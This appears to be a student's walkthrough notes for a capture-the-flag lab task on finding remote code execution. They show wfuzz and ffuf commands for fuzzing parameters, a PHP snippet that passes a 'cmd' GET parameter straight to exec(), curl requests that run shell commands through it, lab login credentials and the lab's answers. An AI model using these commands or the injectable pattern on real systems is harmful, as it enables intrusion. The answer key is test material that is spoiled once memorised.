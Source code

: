 Now that you have access to the administrator subdomain, you can fuzz for remote code execution and attempt to identify a specific parameter that you can exploit to gain arbitrary access to the machine.  

Remote code execution, also known as arbitrary code execution, allows you to execute commands or code on a remote system. RCE can often exploit this by controlling a parameter utilized by a web server.  

One method of attempting to identify RCE is by fuzzing for a vulnerable parameter using Wfuzz. Similar to how we used Wfuzz for asset discovery. The syntax is the same as previous commands; however, this time we will replace the `FUZZ` command at the end along with a `?` so that the complete `FUZZ` parameter is `?FUZZ=ls+-la` Find an example below from the test environment.

Syntax: `wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2`

We suggest using the Seclists "big.txt" for fuzzing RCE parameters.  

Now that we know we can control the parameter, we can attempt to gain RCE on the box. Find an example below from the test environment.  

Command used: `curl -vvv http://localhost:8080/test.php?cmd=ls+-la && echo ""`

Rather than fuzzing all the pages that we find to identify RCE, we can utilize code analysis to look at the code running on a page and infer whether or not the code may be vulnerable. Find an example below of how code can run a command and is vulnerable to an attacker controlling the parameter.  

```
<?php    
	$id = $_GET["cmd"];   
	if ($_GET["cmd"] == NULL){   
		echo "Hello " . exec("whoami") . "!";   
	} else {
	   echo "Hello " . exec($id);   
    }   
?>
```

To identify RCE, you can decide whether you want to fuzz parameters of files or you want to review the source code of a file. Your approach may also differ depending on the scenario you are in and what resources or footholds you have at your disposal.

Once you have RCE on the system, you can use a reverse shell such as netcat to gain a shell on the box. Refer to the following cheat sheet for help with reverse shells. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


---

# Your job

## Log in

- Navigate to http://admin.holo.live/.

	![[Task 13 - Remote Control Empanadas-20240905142323219.webp]]
- Log in with the credentials `admin:DBManagerLogin!`.
	![[Task 13 - Remote Control Empanadas-20240905142604534.webp]]

## Fuzzing

- Use the PHPSESSID cookie that you got after logging in. You can find it using the "Web Develop Tools" from your browser.

	![[Task 13 - Remote Control Empanadas-20240905145623574.webp]]
	The value is `4bat94d2s93tepg4lkgrtjdqkn`.

- Run the following command to fuzz the parameter.

	`ffuf -b PHPSESSID=4bat94d2s93tepg4lkgrtjdqkn -u http://admin.holo.live/dashboard.php\?FUZZ\=pwd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fs 1586`

	![[Task 13 - Remote Control Empanadas-20240905150032028.webp]]
	The parameter is `cmd`.

- Navigate to http://admin.holo.live/dashboard.php/?cmd=.

	![[Task 13 - Remote Control Empanadas-20240905150748521.webp]]
	The parameter with the command has worked. The user is www-data.


---
## Answer the questions below

> What file is vulnerable to RCE on the administrator domain?
> `dashboard.php`

> What parameter is vulnerable to RCE on the administrator domain?
> `cmd`


> What user is the web server running as?
> `www-data`

**Next step:** [[Task 14 - Meterpreter session 1 closed. Reason RUH ROH]]
